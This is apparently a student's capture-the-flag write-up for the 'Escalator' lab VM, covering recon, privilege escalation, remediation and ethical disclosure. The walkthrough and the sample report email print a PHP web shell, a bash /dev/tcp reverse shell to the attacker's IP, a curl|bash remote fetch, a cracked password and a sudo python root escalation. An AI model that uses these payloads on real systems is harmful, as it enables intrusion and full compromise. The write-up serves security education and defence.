




# Escalator — Privilege Escalation Challenge
### By Mustapha Lbahja | Zone01 Oujda | CyberZ Security Club

---

## Table of Contents

1. [Network Architecture & Setup](#1-network-architecture--setup)
2. [Core Concepts](#2-core-concepts)
3. [Attack Flow](#3-attack-flow)
4. [Walkthrough](#4-walkthrough)
5. [Remediation](#5-remediation)
6. [Vulnerability Report Email](#6-vulnerability-report-email)
7. [Ethical Hacking Report](#7-ethical-hacking-report)

---

## 1. Network Architecture & Setup

### Virtualization Environment

- **Software:** VirtualBox 7.x
- **Network Mode:** Host-Only Adapter (`vboxnet0`) — NOT NAT
- **Subnet:** `192.168.56.0/24`

> ⚠️ NAT mode was NOT used because it prevents the attacker machine from directly reaching the target VM's ports — breaking tools like nmap, netcat listeners, and reverse shells.

### Hosts

```
┌──────────────────────────────────────────────────────────────┐
│                   HOST-ONLY NETWORK                          │
│                   192.168.56.0/24                            │
│                                                              │
│   ┌──────────────────┐        ┌──────────────────────┐      │
│   │   KALI LINUX     │        │    ESCALATOR VM      │      │
│   │  (Attack box)    │◄──────►│    (Target)          │      │
│   │  192.168.56.102  │        │   192.168.56.101     │      │
│   └──────────────────┘        └──────────────────────┘      │
│                                                              │
│   ┌──────────────────┐                                       │
│   │   HOST MACHINE   │                                       │
│   │   192.168.56.1   │                                       │
│   └──────────────────┘                                       │
└──────────────────────────────────────────────────────────────┘
```

| Machine | IP Address | Role |
|---------|-----------|------|
| Host Machine | 192.168.56.1 | Hypervisor / VirtualBox gateway |
| Kali Linux | 192.168.56.102 | Attacker machine |
| Escalator VM | 192.168.56.101 | Target machine |

### How to Identify the Target IP

When scanning the network, identify each host by its MAC address:

```
192.168.56.1   → 0A:00:27:xx → VirtualBox host gateway
192.168.56.100 → 08:00:27:xx → VirtualBox DHCP server
192.168.56.101 → 08:00:27:xx → Escalator VM (TARGET) ← only VM with FTP+HTTP+SSH
192.168.56.102 → (no MAC)    → Kali (YOU — nmap never shows your own MAC)
```

Confirm target with:
```bash
nc -nv 192.168.56.101 21
# 220 ProFTPD Server → confirmed Escalator VM ✅
```

---

## 2. Core Concepts

### 2.1 What is Privilege Escalation?

Privilege escalation is gaining higher-level permissions than initially granted:

- **Horizontal** — moving between users with similar privileges
- **Vertical** — moving from low-privilege user (e.g. `www-data`) up to `root`

This challenge focuses on **vertical privilege escalation**.

### 2.2 Attack Concepts Used

#### Anonymous FTP Access
FTP servers can be misconfigured to allow login without credentials. If the FTP directory overlaps with a web-accessible directory, this enables unauthenticated file upload to the web server.

#### Web Shell
A malicious script uploaded to a web server that executes system commands via HTTP requests:
```
curl "shell.php?cmd=id" ──► PHP runs system("id") ──► returns output
```

#### Reverse Shell
The target connects back to the attacker, bypassing firewall rules:
```
Kali listens (nc -lvnp 4444) ◄──── Target executes bash payload
```

#### Hash Cracking
MD5 is a broken hashing algorithm. Tools like John the Ripper or CrackStation can reverse MD5 hashes by comparing against known password databases.

#### Sudo Misconfiguration
A misconfigured `/etc/sudoers` entry allowing a scripting language (Python) to run as root without password — the language spawns a root shell directly.

---

## 3. Attack Flow

```
┌──────────────────────────────────────────────────────────────────┐
│                         ATTACK FLOW                              │
└──────────────────────────────────────────────────────────────────┘

[PHASE 1 — RECONNAISSANCE]
        │
        ▼
  nmap -sn 192.168.56.0/24
  → Discover target: 192.168.56.101
        │
        ▼
  nmap -sV -sC -p- 192.168.56.101
  → Open ports: 21/FTP, 22/SSH, 80/HTTP
  → FTP allows anonymous login!

[PHASE 2 — ENUMERATION]
        │
        ▼
  FTP anonymous login
  → Files: life.c, template.html (rabbit holes)
        │
        ▼
  gobuster on port 80
  → /files/ directory found (maps to FTP root!)
  → FTP uploads = web accessible!

[PHASE 3 — EXPLOITATION]
        │
        ▼
  Upload PHP web shell via FTP
  → shell.php uploaded to /files/
        │
        ▼
  Test RCE:
  curl "shell.php?cmd=id"
  → uid=33(www-data) ✓
        │
        ▼
  Deliver reverse shell
  → Kali hosts rev.sh via python3 HTTP server
  → Web shell fetches and executes rev.sh
  → nc catches connection → www-data shell ✓

[PHASE 4 — POST EXPLOITATION]
        │
        ▼
  cat /home/important.txt
  → Hint: run /.runme.sh
        │
        ▼
  cat /.runme.sh
  → Leaks: shrek:061fe5e7b95d5f98208d7bc89ed2d569 (MD5)
        │
        ▼
  Crack MD5 → CrackStation
  → Password: youaresmart
        │
        ▼
  SSH as shrek → sudo -l
  → (root) NOPASSWD: /usr/bin/python3.5

[PHASE 5 — PRIVILEGE ESCALATION]
        │
        ▼
  sudo /usr/bin/python3.5 -c 'import os; os.system("/bin/bash")'
  → root@ubuntu:~# ✓
        │
        ▼
  cat /root/root.txt
  → Flag: 01Talent@nokOpA3eToFrU8r5sW1dipe2aky 🚩
```

---

## 4. Walkthrough

### Step 1 — IP Discovery

Used nmap ping sweep to identify all live hosts:

```bash
sudo nmap -sn 192.168.56.0/24
```

Result:
```
192.168.56.1   → Host machine (gateway)
192.168.56.100 → DHCP server
192.168.56.101 → Escalator VM (TARGET) ← Oracle VirtualBox NIC
192.168.56.102 → Kali (attacker)
```

### Step 2 — Port Scanning & Enumeration

```bash
sudo nmap -sV -sC -p- 192.168.56.101
```

Discovered services:
```
21/tcp → ProFTPD  (Anonymous login allowed!) ← critical
22/tcp → OpenSSH 7.2p2
80/tcp → Apache 2.4.18 (Ubuntu)
```

### Step 3 — FTP Enumeration & Web Discovery

Connected anonymously to FTP:
```bash
ftp 192.168.56.101
# Name: anonymous
# Password: (press Enter)
```

Files found: `life.c`, `template.html` — both decoys (rabbit holes).

Ran Gobuster to enumerate web directories:
```bash
gobuster dir -u http://192.168.56.101 -w /usr/share/wordlists/dirb/common.txt
```

Found `/files/` directory — **same content as FTP root**.
This means FTP uploads are directly accessible on the web server.

### Step 4 — Web Shell Upload

Created PHP web shell on Kali:
```bash
echo '<?php system($_GET["cmd"]); ?>' > /tmp/shell.php
```

Uploaded via FTP:
```bash
ftp 192.168.56.101
# anonymous login
put /tmp/shell.php shell.php
quit
```

Verified Remote Code Execution:
```bash
curl "http://192.168.56.101/files/shell.php?cmd=id"
# uid=33(www-data) gid=33(www-data) ✅
```

### Step 5 — Reverse Shell

**Terminal 1 — Listener:**
```bash
nc -lvnp 4444
```

**Terminal 2 — Host the payload:**
```bash
echo 'bash -i >& /dev/tcp/192.168.56.102/4444 0>&1' > /tmp/rev.sh
cd /tmp && python3 -m http.server 8080
```

**Terminal 3 — Trigger:**
```bash
curl -G "http://192.168.56.101/files/shell.php" \
  --data-urlencode "cmd=curl http://192.168.56.102:8080/rev.sh|bash"
```

Shell received as `www-data` in Terminal 1. ✅

### Step 6 — Credential Discovery

Found a hint:
```bash
cat /home/important.txt
# → Hint: run /.runme.sh
```

Read the script:
```bash
cat /.runme.sh
# → shrek:061fe5e7b95d5f98208d7bc89ed2d569
```

Cracked MD5 hash using CrackStation:
```
061fe5e7b95d5f98208d7bc89ed2d569 → youaresmart
```

### Step 7 — SSH as shrek

```bash
ssh shrek@192.168.56.101
# password: youaresmart
```

Checked sudo permissions:
```bash
sudo -l
# (root) NOPASSWD: /usr/bin/python3.5 ← jackpot!
```

### Step 8 — Privilege Escalation to Root

```bash
sudo /usr/bin/python3.5 -c 'import os; os.system("/bin/bash")'
# root@ubuntu:~# ✅
```

### Step 9 — Flag

```bash
cat /root/root.txt
# Flag: 01Talent@nokOpA3eToFrU8r5sW1dipe2aky 🚩
```

### Proof of Root Access






---

## 5. Remediation

### Vulnerability 1 — Anonymous FTP Write Access
**Risk:** Critical

**Fix:** Disable anonymous FTP write access in `/etc/proftpd/proftpd.conf`:
```bash
<Anonymous ~ftp>
    User ftp
    Group nogroup
    <Limit WRITE>
        DenyAll
    </Limit>
</Anonymous>
```

### Vulnerability 2 — FTP Directory Shared with Web Server
**Risk:** Critical

**Fix:** Never point the web server document root at the same directory as FTP. Separate them completely — different paths, different permissions.

### Vulnerability 3 — PHP Execution in Upload Directory
**Risk:** Critical

**Fix:** Disable PHP execution inside `/files/`:
```apache
<Directory /var/www/html/files>
    php_flag engine off
    AddType text/plain .php .php5 .phtml
</Directory>
```

### Vulnerability 4 — Hardcoded Credentials in Script
**Risk:** High

**Fix:** Never store credentials — even hashed — in world-readable scripts. Use proper secret management (environment variables, vaults).

### Vulnerability 5 — Weak MD5 Password Hash
**Risk:** High

**Fix:** Replace MD5 with modern algorithms:
- `bcrypt` ✅
- `argon2` ✅
- `sha512crypt` ✅

MD5 is cryptographically broken and must never be used for passwords.

### Vulnerability 6 — Sudo NOPASSWD for Python
**Risk:** Critical

**Fix:** Remove the dangerous sudoers rule:
```bash
# DELETE this line from /etc/sudoers:
shrek ALL=(root) NOPASSWD: /usr/bin/python3.5
```

Apply the **principle of least privilege** — users only get what they absolutely need.

---

## 6. Vulnerability Report Email

```
To: security@escalator-challenge.com
Subject: Security Vulnerability Report: Privilege Escalation in Escalator Challenge VM

Dear Security Team,

I am writing to report a chain of security vulnerabilities identified during
an educational penetration testing exercise against the Escalator Challenge VM.
The vulnerabilities allow an unauthenticated attacker on the local network to
achieve full root access on the system.

────────────────────────────────────────────────────────────────────────────

SUMMARY:

The system is vulnerable to a multi-stage privilege escalation attack chain.
An anonymous FTP server shares its directory with the web server, allowing
unauthenticated file upload and Remote Code Execution via a PHP web shell.
Post-exploitation reveals hardcoded credentials stored as a weak MD5 hash in
a world-readable script. Once authenticated as the user "shrek", a critical
sudo misconfiguration allows Python 3.5 to be executed as root without a
password, resulting in a full root shell.

────────────────────────────────────────────────────────────────────────────

STEPS TO REPRODUCE:

1. Scan the target network to identify the VM:
   sudo nmap -sn 192.168.56.0/24
   → Target identified at 192.168.56.101

2. Scan for open ports and services:
   sudo nmap -sV -sC -p- 192.168.56.101
   → Port 21 (FTP anonymous login allowed), 22 (SSH), 80 (HTTP)

3. Connect to FTP anonymously and enumerate:
   ftp 192.168.56.101 (username: anonymous, password: empty)
   → Access granted, files listed

4. Enumerate web server directories:
   gobuster dir -u http://192.168.56.101 -w common.txt
   → /files/ directory found — maps to FTP root

5. Create and upload PHP web shell via FTP:
   echo '<?php system($_GET["cmd"]); ?>' > shell.php
   ftp> put shell.php

6. Verify Remote Code Execution:
   curl "http://192.168.56.101/files/shell.php?cmd=id"
   → uid=33(www-data) confirmed

7. Get interactive shell via reverse shell:
   - Terminal 1: nc -lvnp 4444
   - Terminal 2: echo 'bash -i >& /dev/tcp/KALI_IP/4444 0>&1' > rev.sh
                 python3 -m http.server 8080
   - Terminal 3: curl "shell.php?cmd=curl KALI_IP:8080/rev.sh|bash"
   → www-data shell obtained

8. Discover credentials in /.runme.sh:
   cat /home/important.txt → hint to run /.runme.sh
   cat /.runme.sh → shrek:061fe5e7b95d5f98208d7bc89ed2d569

9. Crack the MD5 hash using CrackStation:
   → Password: youaresmart

10. SSH as shrek and check sudo permissions:
    ssh shrek@192.168.56.101 (password: youaresmart)
    sudo -l → (root) NOPASSWD: /usr/bin/python3.5

11. Escalate to root using sudo Python:
    sudo /usr/bin/python3.5 -c 'import os; os.system("/bin/bash")'
    → root shell obtained

12. Read the flag:
    cat /root/root.txt
    → Flag: 01Talent@nokOpA3eToFrU8r5sW1dipe2aky

────────────────────────────────────────────────────────────────────────────

IMPACT:

This vulnerability chain allows any unauthenticated attacker on the local
network to achieve full root access with no prior credentials. Impact includes:

- Complete system compromise (confidentiality, integrity, availability)
- Access to all files, credentials, and sensitive data on the machine
- Potential for lateral movement to other systems on the same network
- Ability to install persistent backdoors or malware
- Full control over all services running on the machine

────────────────────────────────────────────────────────────────────────────

PROOF OF ROOT ACCESS:

Successfully gained root access and retrieved the flag:

    root@ubuntu:~# id
    uid=0(root) gid=0(root) groups=0(root)

    root@ubuntu:~# cat /root/root.txt
    Flag: 01Talent@nokOpA3eToFrU8r5sW1dipe2aky

[See attached screenshots: screnn1.webp, screen2.webp, screnn3.webp, screen4.webp]

────────────────────────────────────────────────────────────────────────────

Please feel free to reach out for further details or clarification.

Best regards,
Mustapha Lbahja
Zone01 Oujda | CyberZ Security Club
GitHub: github.com/mlbahja
LinkedIn: linkedin.com/in/mustapha-lbahja/
```

---

## 7. Ethical Hacking Report

### 7.1 The Importance of Proper Authorization

Before any security testing, **written authorization is mandatory**. Performing penetration testing without explicit permission — even with good intentions — is illegal in most jurisdictions. Proper authorization must:

- Clearly define the **scope** — which systems and IP ranges are in scope
- Define the **timeframe** of the engagement
- Be signed by someone with **legal authority** over the target systems
- Specify **what types of testing** are permitted (e.g. no DoS attacks)
- Define **rules of engagement** — what to do if a critical system is impacted

In this project, all testing was performed exclusively on the provided Escalator Challenge VM in an isolated lab environment — fully authorized testing.

### 7.2 Legal and Ethical Boundaries

Security testing must operate within strict boundaries:

| ✅ Permitted | ❌ Not Permitted |
|-------------|----------------|
| Testing within defined scope | Testing systems outside agreed scope |
| Documenting vulnerabilities | Exploiting vulnerabilities for personal gain |
| Reporting findings to the owner | Sharing exploits publicly before patching |
| Using isolated lab environments | Testing production systems without permission |
| Proving impact with a flag/PoC | Accessing or exfiltrating real user data |

Key legal frameworks:
- **Morocco:** Law 09-08 on personal data protection
- **International:** Computer Fraud and Abuse Act (CFAA)
- **Europe:** EU GDPR, NIS Directive

### 7.3 Responsible Disclosure

Responsible disclosure (coordinated disclosure) is the standard practice for reporting vulnerabilities:

1. **Discover** — find the vulnerability during authorized testing
2. **Document** — write a detailed report with proof of concept
3. **Report privately** — contact the organization's security team
4. **Allow patch time** — give the organization time to fix it (typically 90 days)
5. **Publish** — only after the patch is released (if at all)

This protects users while giving organizations time to fix issues before attackers can exploit them. Bug bounty programs like HackerOne and Bugcrowd formalize this process.

### 7.4 Avoiding Harm During Testing

A professional penetration tester must:

- **Minimize disruption** — avoid causing outages, crashes, or data loss
- **Protect sensitive data** — if real user data is encountered, do not access it beyond what's needed to prove the vulnerability
- **Document everything** — maintain detailed logs of all actions with timestamps
- **Stop when in doubt** — if a test risks causing real damage, stop and consult
- **Never exceed scope** — even if you find a path to another system, stay within agreed boundaries

### 7.5 How Organizations Can Detect & Prevent This Attack

**Detection:**
```
- Monitor FTP logs for anonymous write attempts
- Alert on new .php files appearing in web directories
- IDS/IPS rules for web shell patterns ($_GET["cmd"])
- Monitor for unusual outbound connections (reverse shells)
- Alert on sudo usage for scripting languages
```

**Prevention:**
```
- Disable anonymous FTP write access
- Separate FTP and web server directories
- Disable PHP execution in upload directories
- Use strong password hashing (bcrypt/argon2)
- Apply principle of least privilege for sudo rules
- Regular security audits of sudoers configuration
```

### 7.6 The Ethical Hacker's Mindset

The difference between an ethical hacker and a criminal:

```
                 ETHICAL HACKER    CRIMINAL
Authorization:       ✅ Yes          ❌ No
Intent:          ✅ Protect         ❌ Harm
Disclosure:      ✅ Reports it      ❌ Exploits it
Scope:           ✅ Stays in bounds ❌ No limits
```

Ethical hacking exists to make systems safer for everyone. The skills used in this challenge are the same skills used by professional penetration testers who help organizations identify weaknesses before malicious actors do.

> "With great power comes great responsibility." — These skills must only be used to protect, never to attack unauthorized systems.

---

## Files in This Repository

| File | Description |
|------|-------------|
| `README.md` | This document — full walkthrough and report |
| `shell.php` | PHP web shell used for RCE |
| `rev.sh` | Bash reverse shell payload |
| `screnn1.webp` | Screenshot — proof of root access |
| `screen2.webp` | Screenshot — flag content |
| `screnn3.webp` | Screenshot — privilege escalation step |
| `screen4.webp` | Screenshot — full attack chain |

---

*This report was written for educational purposes as part of the Zone01 Oujda cybersecurity curriculum.*
*All testing was performed in an isolated lab environment on an authorized target.*